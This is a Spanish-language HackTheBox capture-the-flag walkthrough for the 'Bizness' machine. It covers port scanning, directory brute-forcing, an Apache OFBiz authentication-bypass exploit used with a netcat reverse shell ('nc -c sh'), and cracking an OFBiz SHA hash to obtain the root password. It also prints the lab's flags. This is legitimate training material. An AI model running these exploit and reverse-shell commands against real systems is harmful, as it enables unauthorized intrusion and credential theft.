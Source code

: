 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bizness HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 05:40 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.036s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
| tls-alpn: 
|_  http/1.1
46287/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.47 seconds
```

Si entramos en el puerto `443` al igual que en el `80` aparecera una pagina...

### gobuster o dirb

```shell
gobuster dir -u <IP>:<PORT> -w <WORDLIST>
```

```shell
dirb https://<IP>:<PORT>/ <WORDLIST>
```

Nos descubrira `/accounting/` y si nos metemos ahi nos metera en un panel de login...

Vemos que es vulnerable con un exploit de GitHub `Apache OFBiz` en la siguiente URL:

URL: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

En la pagina principal con esta herramienta detectamos que es vulnerable, por lo que si nos hacemos una Reverse Shell funcionara aprovechando este exploit...

Con esto verificamos que sea vulnerable...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT>
```

Con esto hacemos la Reverse Shell...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT> --cmd 'nc -c sh <IP> <PORT>'
```

```shell
nc -lvnp <PORT>
```

Vamos a la home de este usuario y leemos la primera flag:

> user.txt (flag1)

```
71f58d65f5f3d731e39c92bd7870e427
```

### Escalada de privilegios

Si vamos a `/opt/ofbiz/` tendremos que investigar por ahí algun archivo llamado AdminLog... y observarlo con `cat`, viendo dentro de el archivo veremos que hay un formato de `hash`

Si ponemos el siguiente comando para buscar por el formato de cifrado en ese directorio donde se puede encontrar el `SHA`

```shell
grep -a -o -R '\$SHA\$'
```

Nos aparecerán los `.dat` que son interesantes, haciendo lo siguiente veremos todos ellos y la clave que queremos conseguir se encontrara a lo ultimo...

```shell
grep -a -R '\$SHA\$'
```

Encontramos este formato:

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

Si lo crackeamos con un script de python en concreto de github:

URL: https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

```shell
python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist <WORDLIST>
```

Info:

```
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
```

La password de root seria `monkeybizness`

Una vez dentro leemos la ultima flag siendo la de root...

> root.txt (flag2)

```
f85a0d868944b0bd87cd48124291be4f
```
